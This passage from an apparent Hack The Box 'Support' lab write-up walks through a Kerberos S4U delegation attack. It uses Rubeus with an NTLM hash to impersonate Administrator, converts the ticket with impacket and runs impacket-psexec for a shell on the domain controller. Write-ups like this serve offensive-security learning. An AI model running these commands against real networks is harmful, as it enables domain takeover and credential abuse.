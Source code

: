 2.  **Generate Kerberos tickets for the Administrator by peforming the S4U attack**:
    -   `.\rubeus.exe s4u /user:bloodstiller$ /rc4:601EAB3FDFB146C4ECD8F800C987D621 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt /nowrap`
        -   **Breakdown**:
            -   `s4u`: Service for User functionality, used to request a service ticket for a user.
            -   `/user:bloodstiller$`: Specifies the user (bloodstiller$), (usually a service account).
            -   `/rc4:601EAB3FDFB146C4ECD8F800C987D621`: The RC4-HMAC key (NTLM hash) for the user (bloodstiller$).
            -   `/impersonateuser:Administrator`: Specifies the user to impersonate (Administrator).
            -   `/msdsspn:cifs/dc.support.htb`: Specifies the SPN (Service Principal Name) for the service to request a ticket (CIFS on dc.support.htb).
            -   `/domain:support.htb`: Specifies the domain (support.htb).
            -   `/ptt`: Pass-the-ticket option to inject the resulting ticket into memory for immediate use.
            -   `/nowrap`: Ensures the ticket is not Base64-encoded (used for better formatting).
                -   No idea why nowrap is not standard for the output&#x2026;
        -   {{< figure src="/ox-hugo/2024-09-06-132226_.png" >}}


#### 4. Root&#x2026;..right? {#4-dot-root-and-x2026-dot-dot-right}

-   We should be able to access the necessary resources locally as we have performed a PTT attack but for some reason it doesn't work, (I actually went to the creators page to see why &amp; it doesn't work for him either so I am not crazy)
    -   <https://0xdf.gitlab.io/2022/12/17/htb-support.html#get-domain-tgt>
    -   {{< figure src="/ox-hugo/2024-09-06-145712_.png" >}}
    -   Instead we will need to convert our tickets and access the target it a different wat.


#### 5. Convert our tickets for use on Linux: {#5-dot-convert-our-tickets-for-use-on-linux}

-   For all intents &amp; purposes we now have everything we need to access the domain, however we need to perform some conversions before we can get RCE on the DC from our linux host, luckily we can do this with the impacket-tool `tickerConverter`
    1.  **We take the base64 encoded string from rubeus and put into a file called** `b64.ticket`:
    2.  **We then decode that ticket whilst piping it into another file called** `admin.kirbi`:
        -   `base64 -d b64.ticket > admin.kirbi`
            -   {{< figure src="/ox-hugo/2024-09-06-135405_.png" >}}
            -   `.kirbi` is the extension required for us to convert our ticket.

    3.  **We then use impacket-ticketconvert to convert our** `.kirbi` **to a** `.ccache`
        -   `ccache`: (Credential Cache) files are used in Linux systems to store Kerberos tickets and other security credentials obtained through the Kerberos authentication process.
            -   `impacket-ticketConverter admin.kirbi admin.ccache`
                -   {{< figure src="/ox-hugo/2024-09-06-135511_.png" >}}

    4.  **Set the** `KRB5CCNAME` **Variable &amp; get root**
        -   `KR5CCNAME` is an Environment variable used by Kerberos 5 (KRB5) used by Linux as pointer to the `.ccache` file
        -   `KRB5CCNAME=admin.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass`
            -   {{< figure src="/ox-hugo/2024-09-06-135652_.png" >}}


## 5. Pillaging/Persistence: {#5-dot-pillaging-persistence}
